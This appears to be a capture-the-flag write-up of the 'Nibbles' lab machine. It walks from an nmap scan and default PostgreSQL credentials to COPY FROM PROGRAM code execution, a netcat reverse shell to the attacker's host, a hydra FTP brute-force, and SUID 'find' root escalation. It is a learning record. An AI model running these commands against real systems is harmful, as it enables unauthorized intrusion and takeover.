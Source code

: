 ```yaml
---
layout: post
title: PG | Nibbles
subtitle: This machine will highlight why we have hardening guidelines.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 09:34 UTC
Nmap scan report for 192.168.191.47
Host is up (0.014s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.81 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)
The target machine is running an Apache web server on port 80

![Nibbles](/assets/img/NibblesPG(1).png)

After digging around the contents of the website and running a gobuster sub-directory scan there was no significant entry point for a foothold

![Nibbles](/assets/img/NibblesPG(2).png)

## PostgreSQL (TCP/5437)

PostgreSQL is a relational database management system software commonly used on Unix systems.

I first attempted to connect to postgres using the default username of "postgres" and a null password, however it prompted for password authentication

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql: error: connection to server at "192.168.191.47", port 5437 failed: fe_sendauth: no password supplied
~~~

I then attempted a few manual password attempts of "password" and "postgres", and postgres was the password!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# 

~~~

I then enumerated the available databases using "\l" cmdlet and listed our user's privileges via "\du+" which showed we have Superuser privileges

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# \l
                                                       List of databases
   Name    |  Owner   | Encoding | Locale Provider |   Collate   |    Ctype    | ICU Locale | ICU Rules |   Access privileges   
-----------+----------+----------+-----------------+-------------+-------------+------------+-----------+-----------------------
 postgres  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | 
 template0 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
(3 rows)

postgres=# \du+
                                    List of roles
 Role name |                         Attributes                         | Description 
-----------+------------------------------------------------------------+-------------
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | 
~~~

After researching and with the help of [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) I found a way to read directories and files by creating a database table and populating it with data on the targets local filesystem, which identified a user on the system named 'wilson'

![Nibbles](/assets/img/NibblesPG(3).png)

I then ran a hydra password brute force attempt on the wilson user account through the FTP service, but had no success so decided to dig deeper into what Superusers can do.
~~~shell
┌──(kali㉿kali)-[/usr/share/seclists/Passwords/Common-Credentials]
└─$ hydra -l wilson -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ftp://192.168.191.47
~~~

# Exploitation

I found a [RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) exploit that works for Superusers on PostgreSQL version 9.3+ and used it to execute a reverse shell

Create listener on port 80

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
~~~

Perform RCE
~~~shell
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'nc -e /bin/sh 192.168.45.173 80';
~~~

And we recieved our reverse shell foothold!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.173] from (UNKNOWN) [192.168.191.47] 42184

whoami
postgres
~~~

# Privilege Escalation

I ran a scan using linpeas.sh which identified the "find" binary has the SUID bit set, which can be used to elevate privileges through the -exec option of the find cmdlet as discussed in [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) list of binaries and bypasses
~~~shell
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found                                                                                                                                                            
strace Not Found                              
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
~~~

Executing the PrivEsc
~~~shell
$ find . -exec /bin/sh -p \; -quit
# whoami
root
~~~
